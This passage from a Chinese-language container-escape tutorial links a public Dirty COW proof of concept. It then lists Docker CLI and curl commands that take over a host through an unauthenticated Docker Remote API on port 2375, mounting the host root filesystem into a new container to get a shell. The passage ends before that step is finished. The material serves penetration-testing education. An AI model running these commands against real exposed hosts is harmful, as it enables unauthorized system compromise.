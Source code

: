 ![image-20201209201050084](assets/1700701638-86ee4cb2cd19da506a0d894d4607ee40.png)

#### 脏牛

利用漏洞章节处的脏牛漏洞提权也可以达到逃逸目的，这里不重复演示。  
POC 地址：  
[https://github.com/scumjr/dirtycow-vdso](https://github.com/scumjr/dirtycow-vdso)

### 未授权访问

当默认端口为 2375 的 Docker Remote API 对外未授权开放时，攻击者可以利用该漏洞进行 getshell。  
未授权测试过程：  
获取所有 images 列表：

```bash
curl http://host:2375/containers/json
```

获取运行中的容器：

```bash
docker -H tcp://host:2375 ps
```

getshell 过程：  
获取镜像：

```bash
docker -H tcp://host:2375 images
```

根据镜像创建容器，把宿主机根目录挂载到容器中：

```ruby
docker -H tcp://host:2375 run -it -v /:/mnt/ image_id /bin/bash
```

创建容器后没自动进入容器的话，可以利用 ps 查看创建容器的 CONTAINER ID：

```bash
docker -H tcp://host:2375 ps
```
